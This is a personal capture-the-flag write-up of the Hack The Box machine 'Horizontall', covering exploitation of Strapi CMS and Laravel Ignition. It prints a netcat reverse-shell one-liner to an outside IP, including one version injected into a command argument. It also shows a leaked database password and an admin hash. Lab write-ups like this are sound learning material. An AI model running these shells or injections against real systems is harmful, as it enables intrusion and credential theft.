 # Horizontal

![Horizontall.png](Horizontal/Horizontall.png)

### 08/29/2021

The ip automatically resolve to horizontall.htb

![Untitled](Horizontal/Untitled.png)

Subdomains bruteforce:

![Untitled](Horizontal/Untitled%201.png)

With the directories enumeration we can discover some interesting directories like reviews, it appears to be a API.

![Untitled](Horizontal/Untitled%202.png)

Strapi api version:

![Untitled](Horizontal/Untitled%203.png)

[https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html](https://packetstormsecurity.com/files/163950/Strapi-CMS-3.0.0-beta.17.4-Remote-Code-Execution.html)

I tested this exploit and it works well, RCE also works. 

![Untitled](Horizontal/Untitled%204.png)

Probably the connection will be done with id_rsa or interesting file, with netcat we can look the output. 

![Untitled](Horizontal/Untitled%205.png)

The command don't exit of this directory, we have to try list files and read each one.

![Untitled](Horizontal/Untitled%206.png)

Listing directory

![Untitled](Horizontal/Untitled%207.png)

CD command doesn't work. 

![Untitled](Horizontal/Untitled%208.png)

Transversal execution of linpeas.

![Untitled](Horizontal/Untitled%209.png)

Path of binaries 

![Untitled](Horizontal/Untitled%2010.png)

This reverse worked perfectly:

```java
rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f
```

Passing the reverse to python.

![Untitled](Horizontal/Untitled%2011.png)

### Strapi is the leading open-source Headless CMS.

Database login file:

```java
cat /myapi/config/environments/development/database.json
```

![Untitled](Horizontal/Untitled%2012.png)

```java
{
  "defaultConnection": "default",
  "connections": {
    "default": {
      "connector": "strapi-hook-bookshelf",
      "settings": {
        "client": "mysql",
        "database": "strapi",
        "host": "127.0.0.1",
        "port": 3306,
        "username": "developer",
        "password": "#J!:F9Zt2u"
      },
      "options": {}
    }
  }
}
```

![Untitled](Horizontal/Untitled%2013.png)

```java
ssh -R 1337:localhost:1337 strapi@10.10.11.105

http://localhost:1337/admin

admin    | admin@horizontall.htb | $2a$10$wZOeplNzijDtfaYGBR9wqOvD.cMMCRN4HBA7PgTkTnj0Ymvhv0e6W
drwxr-xr-x 2 root root 4096 Aug  3 21:16 /usr/share/keyrings
/usr/share/bash-completion/completions/bind

strapi "install" "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.51 1234 >/tmp/f)"
```

### Dissecting the exploit

This function verify the version of strapi that is returned by this page

![Untitled](Horizontal/Untitled%2014.png)

Reset password: note that in the response returns admin True

![Untitled](Horizontal/Untitled%2015.png)

Manually craft exploration:

![Untitled](Horizontal/Untitled%2016.png)

Calls to insert code

![Untitled](Horizontal/Untitled%2017.png)

$gt. Returns any documents that have a value that is greater than the specified value in the set. It is also referred to as the greater than comparison operator.

To make execution of commands we need of JWT token. The execution of commands is done in plugins install page, sending json code with command. 

![Untitled](Horizontal/Untitled%2018.png)

It returns forbidden because we need insert JWT in authorization header.

![Untitled](Horizontal/Untitled%2019.png)

Now authenticated with cookie, we have to create a jwt with plugin and command execution passing port 1337.

![Untitled](Horizontal/Untitled%2020.png)

Working command execution:

![Untitled](Horizontal/Untitled%2021.png)

To make port forwarding just add your pubkey in authorized_keys and runs the port forwarding using SSH. 

![Untitled](Horizontal/Untitled%2022.png)

It's a Laravel PHP v7.4.18

![Untitled](Horizontal/Untitled%2023.png)

Laravel exploit code: [https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py](https://github.com/ambionics/laravel-exploits/blob/main/laravel-ignition-rce.py), this exploit discover the PATH of logs.

The second exploit execute commands:

[https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html](https://packetstormsecurity.com/files/160951/Laravel-8.4.2-Remote-Code-Execution.html)

After many tries  i get the command execution: in payload put between "" to execute all command.

![Untitled](Horizontal/Untitled%2024.png)

[https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat](https://www.youtube.com/watch?v=abEOdicWhNo&ab_channel=CryptoCat)
